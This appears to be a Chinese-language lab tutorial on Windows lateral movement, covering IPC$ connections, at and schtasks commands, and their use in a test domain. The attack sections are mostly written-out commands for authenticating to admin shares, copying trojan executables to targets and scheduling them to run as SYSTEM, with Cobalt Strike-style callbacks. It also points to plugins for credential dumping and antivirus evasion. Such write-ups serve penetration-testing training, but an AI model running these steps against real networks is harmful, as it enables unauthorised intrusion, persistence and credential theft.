# 1. IPC介绍

IPC( Internet Process Connection)共享“命名管道”的资源，是为了实现进程间通信而开放的命名管道。IPC可以通过验证用户名和密码获得相应的权限，通常在远程管理计算机和查看计算机的共享资源时使用。

通过ipc$，可以与目标机器建立连接。利用这个连接，不仅可以访问目标机器中的文件，进行上传、下载等 操作，还可以在目标机器上运行其他命令，以获取目标机器的目录结构、用户列表等信息。

## 1.1. IPC利用条件关系

主要了解一下当使用到IPC的时候需要哪些条件。

### 1.1.1. IPC$空连接介绍

当不使用用户名与密码的IPC$连接就是空连接，而空连接是没有权限的，而当使用目标主机的账号密码或管理员账号密码登陆的时候，就会赋予相应的权限操作，但是想要获取到相应的账号密码就需要进行相关的信息收集。

### 1.1.2. 139与445端口介绍

ipc可以实现远程登录及对默认共享资源的访问，而139端口的开启表示NetBIOS协议的应用。通过139、445( Windows2000)端口，可以实现对共享文件打印机的访问。所以当使用ipc连接需要就139与445端口的支持。

### 1.1.3. 默认共享

默认共享是为了方便管理员远程管理而默认开启的共享(你当然可以关闭它),即所有的逻辑盘(c\$,d\$,e\$……)和系统目录winnt或windows(admin$),我们通过ipc\$连接可以实现对这些默认共享的访问(前提是对方没有关闭这些默认共享)

## 1.2. IPC连接问题

主要了解一些IPC连接的时候出现的一些问题。

### 1.2.1. IPC连接失败原因

在使用IPC的时候，可能会存在一些失败的情况，这时候就需要检查相关的设置是否开启，比如：

```
以下需要共同注意一个问题就是，如果端口没开，其它的测试都是白测，只有当端口开启了，才能进行共享或账号密码的验证。

1.当使用非空连接的时候，连接失败，判断是否账号密码输入错误。

2.当使用非空连接的时候，账号密码正确，但连接失败，判断是否未开启IPC默认共享。

3.当使用非空连接的时候，账号密码正确，开启IPC默认共享，但连接失败，判断是否目标的139或445端口关闭。

4.当使用空连接的时候，连接失败，是否目标未开启ipc默认共享。

5.当使用空连接的时候，目标开启IPC默认共享，但连接失败，判断是否目标的139或445端口未开启。
```

### 1.2.2. IPC连接常见错误

```
1.错误号5:拒绝访问

2.错误号51:Windows无法找到网络路径，即网络中存在问题。

3.错误号53:找不到网络路径，包括IP地址错误、目标未开机、目标的lanmanserver服务未启动目标有防火墙(端口过滤)

4.错误号67:找不到网络名，包括lanmanworkstation服务未启动、ipcs已被删除

5.错误号1219:提供的凭据与已存在的凭据集冲突。例如,已经和目标建立了ipcs，需要在删除原连接后重新进行连接。

6.错误号1326:未知的用户名或错误的密码

7.错误号l792：试图登录，但是网络登录服务没有启动，包括目标NetLogon服务未启动(连接域控制器时会出现此情况)。

8.错误号2242:此用户的密码已经过期。例如：目标机器设置了账号管理策略，强制用户定期修改密码。
```

# 2. 横向移动常用命令

## 2.1. IPC命令介绍

这里主要介绍一下常用命令，对一些常见的命令进行演示，同时也是后期在横向移动的时候，会使用到的一些命令。

```
net use \\192.168.*.*\ipc$ "" /u:""                         #建立空连接
net use \\192.168.*.*\ipc$ "密码" /user:"Administrator"     #建立正常连接
net use                               #查看本机连接共享情况
dir \\xx.xx.xx.xx\C$\                 #查看文件列表
net view \\192.168.*.*                #查看已建立连接目标主机的共享资源
net time \\192.168.*.*                #查看目标主机时间
nbtstat -A 192.168.*.*                #查看目标主机的NetBIOS用户（自己本机也需开启）
net use \\192.168.*.*\ipc$ /del /y    #删除本机与指定ip建立的连接
net use * /del /y                     #删除本机所有已建立的连接
copy 1.exe \\192.168.*.*\c$\windows\temp\1.exe    #文件的上传下载
copy vps.exe \192.168.*.*\c$          #将本目录下的指定文件复制到目标系统中
xcopy d:\sqlitedata\*.* \\192.168.*.*\c$\temp /E /Y /D         #上传本地文件到目标的:c\windows\temp\目录下
copy \\192.168.*.*\c$\plugin_update.exe c:\                    #下载目标文件到本地c盘下
net share c$ /del                     #删除默认共享
net share c$=c:                       #恢复默认共享
net use z: \\192.168.*.*\c$ "密码" /user:"administrator"   #映射路径：对方的c盘映射为自己的z盘(其他盘类推)
net use z: \\192.168.*.*\c$   #访问
net use c: /del               #删除映射的c盘
net use * /del                #删除全部,会有提示要求按y确认
```

### 2.1.1. IPC常用命令演示

只演示一些常用的命令，其它的命令可以自行操作，同时需要注意，部分情况下，在遇到目标主机是在域环境内，那么就需要使用域名\administrator来作为用户进行连接。

#### 2.1.1.1. 建立空连接

这里我建立空连接，会提示无法访问，这是由于目标主机做了一些限制，会导致无法建立空连接，但同时就算能够建立空连接，但是也无法使用。

```
net use \\192.168.10.100\ipc$ "" /u:""
```


#### 2.1.1.2. 建立正常连接

建立正常连接，其实也就是需要使用使用到账号密码，当然使用不同权限的账号密码，也会形成不同的权限操作。

```
net use \\192.168.10.150\ipc$ "admin@123" /user:"admin"
```


#### 2.1.1.3. 查看本机连接共享情况

这条命令主要就是查看目前本地已经连接的共享详情。

```
net use
```


#### 2.1.1.4. 删除IPC共享资源

```
net use \\192.168.10.150\ipc$ /del /y
```


#### 2.1.1.5. 查看文件列表

通过命令可以查看目标主机上共享的文件列表，这里我出现一个问题就是，上面我使用的用户是admin用户，也就是普通管理员用户，虽然是管理员用户，但是却无法读取，后续我把用户换成了administrator账号，就可以执行了，证明普通管理员的用户权限，相较来说还是比较低的，在前期的信息收集过程中，还是需要尽量去获取administrator账号的密码。

```
dir \\192.168.10.150\C$\ 
```



#### 2.1.1.6. 上传文件至目标系统

将指定的文件上传至目标系统指定目录下，并且将文件名修改。倘若不想要上传至执行的目录下，直接将后面指定的目录去除即可。

```
copy 1.txt \\192.168.10.150\c$\windows\2.txt     ##指定
copy 1.txt \\192.168.10.150\c$                   ##不指定，默认在c盘根目录下
```



#### 2.1.1.7. 下载文件至本地系统

下载目标主机中指定的文件至本地系统中,注意将文件下载下来，本地的cmd需要是管理员权限，不然就会提示拒绝访问。

```
copy \\192.168.10.150\c$\windows\111.txt c:\
```


## 2.2. AT命令介绍

在Windows的命令提示符（cmd）中，`at`命令用于在指定日期和时间运行指定的程序或任务，当然相关的参数还有很多，可以自行查阅，当然很多都是我们可能暂时使用不到的。

要想使用at命令，那么AT < Windows server 2012系统版本才能够使用。

```
at [/servicepack] [/interactive] [/delete] [/yes] time

1./servicepack: 如果指定，则向计划的任务发送服务包修补程序消息。

2./interactive: 如果指定，则允许交互式任务。否则，任务将默认以批处理方式运行。

3./delete: 如果指定，则从调度表中删除指定的任务。

4./yes: 如果指定，则自动回答“是”到与任务相关的所有提示。

5.time: 指定任务的运行时间，格式为“hh:mm:ss”。
```

### 2.2.1. AT常用命令演示

这里只演示常见的横向移动的时候会使用到的命令。

#### 2.2.1.1. 定时执行可执行文件

这里由于想要执行，但是无法演示出来，主要就是看看任务吧！

```
at 20:39 C:\111\shell.exe
```


#### 2.2.1.2. 查看定时任务

```
at
```


#### 2.2.1.3. 删除定时任务

其中的1是ID。

```
at 1 /delete
```


#### 2.2.1.4. 定时执行批处理脚本

默认at是无法执行bat脚本的，所以需要添加cmd /c，其实不单单是bat脚本，只要不是可执行文件，都需要添加cmd /c。

```
at 11:23 cmd /c "c:\windows\temp\test.bat" 
```


### 2.2.2. 横向移动AT命令演示

在横向移动的时候和普通使用的命令是有些不相同的，这里需要注意的是，我在测试的时候，出现了一个问题就是，倘若我获取到的主机系统版本是2012，那么当我使用at命令对2008进行操作的时候，会出现at命令无法使用的情况，这是由于命令不兼容的情况。

目前暂无法解决，那么只能说，当使用at的时候，目标主机与远程操作执行的主机都是能够使用at命令的，不可以使用不兼容的命令来进行执行。也就是2012与2008、2003这样。

回到原先的话题，其实这里就是在at命令后添加一个IP地址也就是ipc的连接。

```
net use \\192.168.20.20\ipc$ "admin12345" /user:"yuto.com\yaya"  ##建立IPC连接

at \\192.168.20.20 21:08 cmd /c copy C:1111\1.txt C:\     ##测试
```


## 2.3. SCHTASKS命令介绍

schtasks其实就是at命令，也就是定时任务，但是这里有个不同点的就是schtasks相较于at命令再使用起来的时候，更加复杂，需要添加的参数更多。同时schtasks命令支持图像化，但我们在使用横向移动的时候，通常只能使用命令行来操作，具体的schtasks命令使用方式自行去搜索，这里我们不做一些其它的操作，只演示一些在横向移动的时候会使用到的命令。

同时使用schtasks命令的时候，需要系统版本>Windows server 2012，支持Windows 7 —Windows 10

```
1.schtasks /change    #更改任务的以下一个或多个属性：任务运行的程序 (/tr)；运行任务的用户帐户 (/ru)；用户帐户的密码 (/rp)；将仅交互式属性添加到任务 (/it)

2.schtasks /create    #计划新任务

3.schtasks /delete    #删除计划任务

4.schtasks /end       #停止任务启动的程序

5.schtasks /query     #显示计划在计算机上运行的任务

6.schtasks /run       #立即启动计划任务。 运行操作会忽略计划，但使用任务中保存的程序文件位置、用户帐户和密码立即运行任务
```

```
#/sc 启动时间参数为MINUTE、HOURLY、DAILY、WEEKLY等时，需要指定/mo运行的间隔时间
/sc onlogon      用户登录时启动
/sc onstart      系统启动时启动
/sc onidle       系统空闲时启动
/sc MINUTE、 HOURLY、DAILY、WEEKLY、 MONTHLY, ONCE, ONSTART, ONLOGON, ONIDLE, ONEVENT。
/sc 分钟、小时、每天、每周、每月、一次、开始、登录、空闲、事件。
参数：
/sc   计划任务类型，可选值为MINUTE、HOURLY、DAILY、WEEKLY、ONCE、ONSTART、ONLOGON、ONIDLE、MONTHLY、ONEVENT
/tn   计划任务名称，后续查询、修改、删除、执行时使用
/tr   需要运行的程序或命令，传入的命令中间如果有空格会被截断为程序和参数，因此需要将双引号转义并传入。
/ru   运行任务的用户账户名，不使用此参数的话使用执行schtasks命令的账户运行计划任务
/rp   运行任务的用户账户密码
/mo   指定任务在计划类型中的运行间隔
/d    指定任务在一个月或者星期的某一天运行，只适用于MONTHLY和WEEKLY类型。
/m    指定任务在某个月运行，只适用于MONTHLY类型。
/i    当计划任务类型为ONIDLE时，运行任务前计算机处于空闲状态的分钟数。
/st    当计划任务类型为MINUTE、HOURLY、DAILY、WEEKLY、MONTHLY时使用，指定任务的开始时间，默认为本地计算机的当前时间。
/ri   指定计划任务的重复间隔，以分钟为单位。不适合计划类型：MINUTE、HOURLY、ONSTART、ONLOGON、ONIDLE
/et   指定计划任务的结束时间，适用于计划类型：MINUTE、HOURLY， 在指定的结束时间之后，schtasks 不会再次启动任务，除非当前系统时间调回开始时间。默认情况下，没有结束时间。
/du   指定任务计划的持续时间，与/et类似，默认情况下没有持续时间。
/k    在指定计划任务的结束时间或持续时间后停止任务，如果不加此参数，则在时间到了会继续运行或者重启该任务。
/it   只在用户登录时运行
/z    在任务计划完成后删除任务计划
/f    在创建任务时如果任务已存在不显示警告
/RL   为作业设置运行级别。有效值为LIMITED 和 HIGHEST。默认值为 LIMITED。
/F    如果指定的任务已经存在，则强制创建任务并抑制警告。
```

### 2.3.1. SCHTASKS常用命令演示

这里同样也是执行一些常见的命令。

#### 2.3.1.1. 定时执行可以执行文件

这里我使用了本地用户添加了命令，由于刚开始域用户权限不足，所以使用的，后续已经调整。

```
schtasks /create /tn yuto /sc ONCE /st 22:00 /tr C:\1111\1.exe /ru system 
```


#### 2.3.1.2. 查询定时任务

```
schtasks /query /tn test
```


#### 2.3.1.3. 删除定时任务

```
schtasks /delete /tn test /f
```


### 2.3.2. 横向移动schtasks命令演示

这里其实就是添加了一个/s 加ip地址。

```
net use \\192.168.20.50\ipc$ "admin123456" /user:yuto.combaobao   ##连接  
schtasks /create /s 192.168.20.50 /tn yuto /sc ONCE /st 22:00 /tr C:\1111\1.exe /ru system  ##创建任务
```



```
schtasks /query /tn yuto  ##查询任务
```


远程删除或运行的命令

```
schtasks /run /s 192.168.20.50 /tn beacon /i #运行 beacon 任务
schtasks /delete /s 192.168.20.50 /tn beacon /f#删除 beacon 任务
```

# 3. 横向移动—前期信息收集

这里主要就是需要对域内环境的前期信息收集，比如收集密码、ip地址、端口等。

## 3.1. 网络环境



## 3.2. 信息收集

这里我们先获取到Windows2008的权限，这里有外网，可能通过各种手段获取，所以这里就不演示了，直接演示上线情况。

### 3.2.1. Windows2008 上线

首先使其上线，上线后进行提权，这里一定要进行提权，要注意在部分情况下，权限不足能够会导致一些操作无法执行。



#### 3.2.1.1. 密码抓取

这里就需要去抓取一下密码，尽量进行前期的信息收集，这里就收集到一个明文的密码，还是比较简单的。



#### 3.2.1.2. 端口探测

这里由于我们后期需要使用到ipc命令，而且ipc命令需要使用到445端口与135端口，那么这里我们就使用135进行测试。

需要注意这里，我们上线的地址是10段的，那么我们就来抓取20段的。


通过端口扫描，存在这些主机在线。


### 3.2.2. 域内信息收集

这里我们主要要收集一些域IP地址，以及域内用户。

#### 3.2.2.1. 判断域IP

这里我们先使用一个命令，也就是同步时间，确定我们是否在域内，同时还可以通过操作获取域IP地址。

```
shell net time /domain
```


这里有点小问题，就是我这个域名可能和真实的有点冲突了，不用管，通过下面这个方式也是可以的，这里我们获取到的域控IP是192.168.20.10。

```
shell ping WIN-U7VV2NU5E5Q.yuto.com
```



#### 3.2.2.2. 域内用户

获取到域内用户了，这里我们就可以进行下面的操作了。

```
shell net user /domain
```



# 4. 横向移动—IPC命令上线演示

这里横向移动命令上线，就是采用之前我们介绍到的at命令和schtasks命令与IPC进行结合使其上线。

```
整体上线思路：
1.建立IPC链接到目标主机
2.拷贝要执行的命令脚本到目标主机
3.查看目标时间，创建计划任务（at、schtasks）定时执行拷贝到的脚本
4.正向连接木马或者反向自动上线
5.删除定时任务
```

## 4.1. 注意

这里需要注意，由于我的想法的使用域账号来测试，但是我前面的测试一直都是本地的administrator账号来测试的，测试完才发现未替换账号，这里我们来看一下替换完的情况，提权发现是提不到system权限的，但是能提到域账号的管理员，也能够执行相应的权限，这样更贴近实际吧。



注意，看到下面会发现有很多的变化，截图的信息有些不同，这是由于我自己搭建的域环境，可能存在一些异常，所以在做测试的时候，一边测试一边调整域内主机的策略。

还是建议去找现成的域内靶机环境来继续测试，不建议像我一样手工搭建域环境，有些可能没想到，所以导致测试的时候，一会可以一会不可以。

## 4.2. AT命令上线演示

这里直接使用AT命令来进行上线其实是不对的，但是看运气了，如果at无法执行就替换成schtasks命令，由于我们不确定是什么系统。

### 4.2.1. Windows 2003上线

#### 4.2.1.1. 建立连接

这里我们来连接192.168.20.40，通过我之前的画图就知道是一个2003系统，那么我们就来让其上线，这里我们是已经建立了连接。后续就是让其上线了。

当然这里我们获取到域账号了，你也可以让域账号上线，只是密码就需要一个一个测试了。

```
shell net use \\192.168.20.40\ipc$ "admin@123" /user:yuto.com\administrator
```


#### 4.2.1.2. Windows 2003上线

由于我们的攻击机与内网不是同一个IP段的，所以我们需要生成正向木马，然后上传木马，借用之前2008，来进行上线，这一步我就不演示了，直接演示如何上线吧。

#### 4.2.1.3. 上传文件

这里我们先把木马考进去，由于我们建立的连接是2008与2003建立的，所以我们需要将文件放入到Windows2008中。



```
shell copy 2003.exe \\192.168.20.40\c$
```


#### 4.2.1.4. 设定定时任务

这里需要注意的是首先要获取域下的时间，由于在虚拟机中演示的时候，需要注意时间，可能不同步，在实际环境中也需要注意时间，不然就会出现定了时，确没上线的情况。

```
net time \\192.168.20.40     ##查看目标主机时间
at \\192.168.20.40 14:06 c:\2003.exe
```


#### 4.2.1.5. 查看上线情况

**这里在操作过程中出现了很多问题，我替换了一个IP，将原来的192.168.20.40替换成192.168.20.30了，一定要注意。**

```
connect 192.168.20.30 2222
```



## 4.3. schtasks命令上线演示

### 4.3.1. Windows 2012上线

这里前面都是一样的上传木马，采用正向，这里我就不演示了，我们直接演示如何上线吧。

#### 4.3.1.1. 建立连接

这里我们直接连接Windows 2012。

```
shell net use \\192.168.20.50\ipc$ "admin@123" /user:yuto.com\administrator
```


#### 4.3.1.2. 上传文件

还是一样创建一个正向的连接，如何将木马上传上去。


```
shell copy 2012.exe \\192.168.20.50\c$
```


#### 4.3.1.3. 设定定时任务

这里就有点不一样了，我们对操作系统是不知道是什么版本的，那么最好的办法就是测试，这里我们使用上述说过的，确定了是2012，所以我们就不能使用at命令了。

可以看到我这里一直都是拒绝访问，可能我的域环境搭建的有问题，从上面也能看到，我一直在调整域环境，是能够实现的，只是我这个域环境可能一直没设置对，这里我们继续向下走流程吧。

```
shell schtasks /create /s 192.168.20.50 /ru system /tn 2012 /sc DAILY /tr c:\2012.exe /F
```


#### 4.3.1.4. 查看上线情况

这里我有点强行上线了，其实也能看出来，域环境中，有些情况下还是比较难实现上线的。

```
connect 192.168.20.50 3333
```


## 4.4. 总结

我这里只是演示了两种命令的上线方式，并没有将所有的主机都上线，其实上线的步骤都是一样的，就没有完全测试完，但是还是需要注意，尽量找现成的域环境主机，不然就会出现我这种，一会能上线，一会不能上线，一会可以执行，一会不可以执行。

# 5. 横向移动—IPC代理转发上线演示

前面的都是使用正向执行后，主动去连接，这里就使用代理转发上线，具体就不演示很多了，这里只上线一台来测试。

## 5.1. 设置代理转发

这里设置代理转发，用于上线，这里默认监听地址可能是上线的地址，而内部的主机和上线的地址是不通信的，所以我们可以执行命令查看一下上线的这台主机的IP地址。


然后生成一个木马，使用的监听器是刚刚代理转发生成的监听器。



## 5.2. 建立连接

到这里就可以建立连接了。

```
shell net use \\192.168.20.30\ipc$ "admin@123" /user:yuto.com\administrator
```


## 5.3. 上传木马

将木马上传到获取权限的这台主机，然后通过这台主机将木马上传至目标主机中。



然后将木马复制到目标主机中。

```
shell copy 7.exe \\192.168.20.30\c$
```


## 5.4. 设定定时任务

将木马上传后，就可以设定定时任务了，这里首先查询一下目标主机的时间，这样可以确保我们设置的时间是对的。

```
shell net time \\192.168.20.30
```


这里我打码的是句柄无效，是由于我上面输入的ip地址错误了，后面输入对了，导致反馈信息到这行了，所以就打了个码。

```
shell at \\192.168.20.30 7:16 c:\7.exe
```


## 5.5. 上线情况

这里是成功上线。 



# 6. 横向移动—IPC插件&工具

这里我只介绍工具吧，就不演示了，说实话，除了cs插件有点用，像其它的软件或者可执行文件都太大了，上传就被发现，还很明显，有需要的自行找相关的文章。

## 6.1. cs插件---LSTAR - Aggressor

一个插件从上线到域控  实现内网漫游，本着简化 CS 右键和方便自己集成的目的，参考大量后渗透插件，重构和丰富了主机相关凭据获取、多级内网穿透、隐蔽计划任务、免杀的 Mimikatz 和克隆添加用户等功能。

功能特性：

- 通过配合 CobaltStrike 的 TCP、SMB、Proxy 等不出网主机上线方式，穿透复杂网络环境
- 针对 RDP 相关、AddUser、LsassDump 等功能提供多种免杀执行方式，应对冷门环境
- 集成多个使用 WinAPI 或 Assembly 内存加载方式运行的影子用户、隐蔽计划任务等免杀功能
- 下载地址：[LSTAR](https://github.com/lintstar/LSTAR)



## 6.2. impacket-atexec

Impack是一组用于处理网络协议的Python类的集合。Impack专注于提供对数据包的低级编程访问，并为某些协议（例如SMB1-3和MSRPC）提供协议实现本身。数据包可以从头开始构建，也可以从原始数据中解析，面向对象的API使处理协议的深层层次结构变得简单。

项目地址：[Impacket—py版本](https://github.com/fortra/impacket)

项目地址：[Impacket—exe版本](https://gitee.com/RichChigga/impacket-examples-windows)
